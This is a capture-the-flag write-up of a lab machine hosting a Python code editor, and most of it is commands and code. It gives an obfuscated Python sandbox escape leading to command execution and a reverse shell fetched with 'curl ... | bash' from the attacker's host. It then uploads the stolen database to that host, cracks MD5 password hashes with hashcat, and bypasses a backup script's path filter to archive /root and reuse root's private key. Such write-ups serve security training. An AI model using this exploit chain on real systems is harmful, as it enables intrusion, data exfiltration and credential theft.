

Code#

Enumeration#
# Nmap 7.95 scan initiated Fri Mar 28 10:31:44 2025 as: nmap -sC -sV -Pn -oN scans/nmap.initial 10.10.11.62
Nmap scan report for 10.10.11.62
Host is up (0.064s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
| 256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_ 256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open http Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar 28 10:31:54 2025 -- 1 IP address (1 host up) scanned in 10.54 seconds
Python Sandbox escape#
Obtain ‘builtin’ from a globally defined print, then do some simple string matching bypass. and we can read files:
o = "o"
s = "s"
l = "l"
p = "p"
e = "e"
n = "n"
i = "i"
m = "m"
r = "r"
t = "t"
a = "a"
d = "d"
_ = "_"
handle = print.__self__.__dict__[o+p+e+n]("/etc/passwd")
file = getattr(handle, r+e+a+d)()
print(file)
Playing a bit further with that we get command exec, where we can only get the rc back, no output
o = "o"
s = "s"
l = "l"
p = "p"
e = "e"
n = "n"
i = "i"
m = "m"
r = "r"
t = "t"
a = "a"
d = "d"
y = "y"
_ = "_"
wes = print.__self__.__dict__[_+_+i+m+p+o+r+t+_+_](o+s)
rc = getattr(wes, s+y+s+t+e+m)("sleep 5;false")
print(rc)
But it works, for instance we can use ping
o = "o"
s = "s"
l = "l"
p = "p"
e = "e"
n = "n"
i = "i"
m = "m"
r = "r"
t = "t"
a = "a"
d = "d"
y = "y"
_ = "_"
wes = print.__self__.__dict__[_+_+i+m+p+o+r+t+_+_](o+s)
rc = getattr(wes, s+y+s+t+e+m)("ping -c3 10.10.16.20")
print(rc)
And see the packets come through with tcpdump
sudo tcpdump -nn -i tun0
This means we can upload a simple bash reverse shell
o = "o"
s = "s"
l = "l"
p = "p"
e = "e"
n = "n"
i = "i"
m = "m"
r = "r"
t = "t"
a = "a"
d = "d"
y = "y"
_ = "_"
wes = print.__self__.__dict__[_+_+i+m+p+o+r+t+_+_](o+s)
rc = getattr(wes, s+y+s+t+e+m)("curl 10.10.16.20:9090/shell.sh | bash")
print(rc)
DB Credential Exposure#
Now that we have a shell, it doesn’t take long to find the db and it’s creds
app.config['SECRET_KEY'] = "7*************************"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
db = SQLAlchemy(app)
Upload the databse to our updog server
curl \
--url http://10.10.16.20:9090/upload \
-F "file=@./database.db;filename=database.db" \
-F "path=./"
Connect locally
sqlite> .mode table
sqlite> .headers on
sqlite> .tables
code user
And read the user hashes
sqlite> select * from user;
+----+-------------+----------------------------------+
| id | username | password |
+----+-------------+----------------------------------+
| 1 | development | 759b74ce43947f5f4c91aeddc3e5bad3 |
| 2 | martin | 3de6f30c4a09c27fc71932bfc68474be |
+----+-------------+----------------------------------+
Nothing interesting int there
<sqlite> select * from code;
+----+---------+-----------------------------+------+
| id | user_id | code | name |
+----+---------+-----------------------------+------+
| 1 | 1 | print("Functionality test") | Test |
+----+---------+-----------------------------+------+
The hashes are 32 chars that’s md5
printf 3de6f30c4a09c27fc71932bfc68474be | wc -c
So it’s easy to crack
hashcat -m 0 hash.txt ~/.local/share/seclists/rockyou.txt --show
759b74ce43947f5f4c91aeddc3e5bad3:development
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
Prives trough custom backup system#
We’re ssh-ed in as martin
grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
app-production:x:1001:1001:,,,:/home/app-production:/bin/bash
martin:x:1000:1000:,,,:/home/martin:/bin/bash
Martin can do that:
sudo -l
Matching Defaults entries for martin on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User martin may run the following commands on localhost:
(ALL : ALL) NOPASSWD: /usr/bin/backy.sh
Intended use
backy.sh
Usage: /usr/bin/backy.sh <task.json>
Examle task.json
{
"destination": "/home/martin/backups/",
"multiprocessing": true,
"verbose_log": false,
"directories_to_archive": [
"/home/app-production/app"
],
"exclude": [
".*"
]
}
backy.sh is a bash wrapper around the backy, which is the go binary that actually performs the backup.
backy.sh tries to filter the imput given to backy by trying to disallow folders that are not in /home/ and /var/, but the filter is trivial to bypass.
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
If we remove the exclude key the –exclude flag gets removed from the tar command that backy eventually runs, as observed in pspy64.
{
"destination": "/home/martin/backups/",
"multiprocessing": true,
"verbose_log": true,
"directories_to_archive": [
"/home/..././root"
]
}
Just exfiltrate the backup
scp martin@10.10.11.62:backups/code_home_.._root_2025_March.tar.bz2 .
And ssh as root with his private key
ssh -i id_rsa root@10.10.11.62